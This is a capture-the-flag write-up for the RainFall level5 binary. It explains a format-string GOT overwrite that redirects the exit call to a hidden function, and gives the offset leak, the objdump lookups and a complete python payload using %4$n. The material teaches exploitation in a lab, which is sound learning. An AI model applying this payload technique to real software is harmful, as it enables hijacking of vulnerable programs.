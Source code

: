 We open the binary in [dogbolt](https://dogbolt.org/). We can see that we have to call the function `o`.

Here will do the same as previous levels.

Let's find the offset to the start of the buffer containing our input:
```Shell
level5@RainFall:~$ ./level5
AAAA %p %p %p %p %p %p %p %p %p %p
AAAA 0x200 0xb7fd1ac0 0xb7ff37d0 0x41414141 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070
```
Here we find that the start of our buffer can be access with `%4$p`


Here we see that the `n` function does not `return` but instead use a `exit` so it doesn't return in main.
So we will have to overwrite the address of the `exit` function.
To do that we will do a GOT overwrite, when a program is executed it initialized the GOT (Global offset Table) for every external function (like lib function),
it will cache the memory address from the function in the GOT so it doesn't have to ask the lib (here `libc`) for every external function call.

To see the GOT address of exit we can do :
```Shell
level5@RainFall:~$ objdump -R level5

level5:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE
08049814 R_386_GLOB_DAT    __gmon_start__
08049848 R_386_COPY        stdin
08049824 R_386_JUMP_SLOT   printf
08049828 R_386_JUMP_SLOT   _exit
0804982c R_386_JUMP_SLOT   fgets
08049830 R_386_JUMP_SLOT   system
08049834 R_386_JUMP_SLOT   __gmon_start__
08049838 R_386_JUMP_SLOT   exit
0804983c R_386_JUMP_SLOT   __libc_start_main
```
Here the address of `exit` is : `08049838`
In little endian : `/x38/x98/x04/x08`


We find the address of `o`.
```Shell
level5@RainFall:~$ objdump -t level5
...
080484a4 g     F .text  0000001e              o
...
```
Address : `080484a4`
Converted in decimal : 134513828


Let's put this together:
Here we do not forget to subtract 4 bytes for the address of `exit`

```Shell
python -c 'print "\x38\x98\x04\x08" + "%134513824c" + "%4$n"' > /tmp/exploit1 && cat /tmp/exploit1 - | ./level5
```
The command can be a bit low because of the 134513828 that `printf` has to write

To go further :
https://axcheron.github.io/exploit-101-format-strings/
